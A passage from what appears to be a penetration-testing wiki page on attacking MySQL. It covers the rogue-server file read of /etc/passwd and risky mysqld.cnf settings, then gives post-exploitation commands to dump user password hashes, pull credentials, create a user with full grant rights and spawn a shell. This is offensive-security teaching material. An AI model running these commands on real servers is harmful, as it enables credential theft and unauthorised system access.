 (Notice the "local" word)\
Because without the "local" you can get:

```bash
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

**Initial PoC:** [**https://github.com/allyshka/Rogue-MySql-Server**](https://github.com/allyshka/Rogue-MySql-Server)\
**In this paper you can see a complete description of the attack and even how to extend it to RCE:** [**https://paper.seebug.org/1113/**](https://paper.seebug.org/1113/)\
**Here you can find an overview of the attack:** [**http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/**](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)

## POST

### Mysql User

It will be very interesting if mysql is running as **root**:

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
systemctl status mysql 2>/dev/null | grep -o ".\{0,0\}user.\{0,50\}" | cut -d '=' -f2 | cut -d ' ' -f1
```

#### Dangerous Settings of mysqld.cnf

From [https://academy.hackthebox.com/module/112/section/1238](https://academy.hackthebox.com/module/112/section/1238)

| **Settings**       | **Description**                                                                                                                           |
| ------------------ | ----------------------------------------------------------------------------------------------------------------------------------------- |
| `user`             | Sets which user the MySQL service will run as.                                                                                            |
| `password`         | Sets the password for the MySQL user.                                                                                                     |
| `admin_address`    | The IP address on which to listen for TCP/IP connections on the administrative network interface.                                         |
| `debug`            | This variable indicates the current debugging settings (sensitive info inside logs)                                                       |
| `sql_warnings`     | This variable controls whether single-row INSERT statements produce an information string if warnings occur. (sensitive info inside logs) |
| `secure_file_priv` | This variable is used to limit the effect of data import and export operations.                                                           |

### Privilege escalation

```bash
# Get current user (an all users) privileges and hashes
use mysql;
select user();
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user;

# Bash oneliner to get creds
mysql -u root --password=<PASSWORD> -e "SELECT * FROM mysql.user;"

# Create user and give privileges
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;

# Get a shell (with your permissions, usefull for sudo/suid privesc)
\! sh
```